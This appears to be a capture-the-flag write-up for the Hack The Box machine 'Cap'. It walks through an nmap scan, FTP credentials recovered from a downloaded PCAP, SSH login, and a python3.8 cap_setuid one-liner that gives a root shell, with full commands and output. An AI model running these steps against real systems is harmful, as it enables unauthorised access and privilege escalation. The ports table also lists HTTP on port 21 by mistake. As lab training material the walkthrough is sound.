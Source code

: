 ## Default Information
IP address : 10.10.10.245\
Operating System : Linux

## Discovery
### Nmap
Lets start with running a network scan on the IP address using Nmap to identify the open ports and the services running on the open ports (NOTE: This might take up quite some time)
* sV : service detection
* sC : Run default nmap scripts
* A : identify the OS behind each ports
* -p- : scan all ports
```code 
sudo nmap -sC -sV -A -p- -T4 10.10.10.245 -vv
```
From the output of ```NMAP```, we are able to obtain the following information about the open ports:
| Port Number | Service | Version |
|-----|------------------|----------------------|
| 21	| FTP | vsftpd 3.0.3 |
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0) |
| 21	| HTTP | Gunicorn |

### Web Discovery
Visiting the webpage at ```10.10.10.245```, the site appears to be a security dashboard
![Screenshot of 10.10.10.245](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitydashboard.PNG)
The ```IP config``` and ```Network Status``` does not contain any fascinating information, but the ```security snapshot``` contains a PCAP file that can be downloaded. 
![Screenshot of security snapshot](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_securitysnapshot.PNG)
We will then proceed to save the PCAP file downloaded from ```http://10.10.10.245/data/0``` , ```http://10.10.10.245/data/1```, ```http://10.10.10.245/data/2``` and ```http://10.10.10.245/data/3```\


## Exploit
### Obtaining FTP credentials
Viewing the PCAP file from ```http://10.10.10.245/data/0```, we are able to discover that there is a connection to the FTP server, and we are also able to retrieve the username and password to the FTP server
![Screenshot of FTP server](https://github.com/joelczk/writeups/blob/main/HTB/Images/cap_FTP.PNG)

### Obtaining user flag
Now, we will login to the FTP server using the discovered username and password. Afterwards, we will download the ```user.txt``` file to our server.
```code                                                                           
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```
### Login to SSH Server
We will find the key from the ```user.txt``` file using the ```cat``` command, to obtain our user key.\
Remembering that we have an SSH serve, we will now try to login to the SSH server. In the SSH server, we notice that the user ```nathan``` is unable to run sudo commands. Hence,we will start by searching for sudo permissions or SUID binaries that could escalate privileges and help us obtain the root shell.
```code
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```
### Exploiting setuid capabilities
We notice that ```python 3.8``` has a ```setuid``` command that can help us escalate to UID 0(root) and obtain a root shell. From there, we will be able to obtain our system flag.
```code
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
```

### Obtaining root flag
Now, all we have to do is to obtain the root flag

```
root@cap:/root# cat root.txt
```
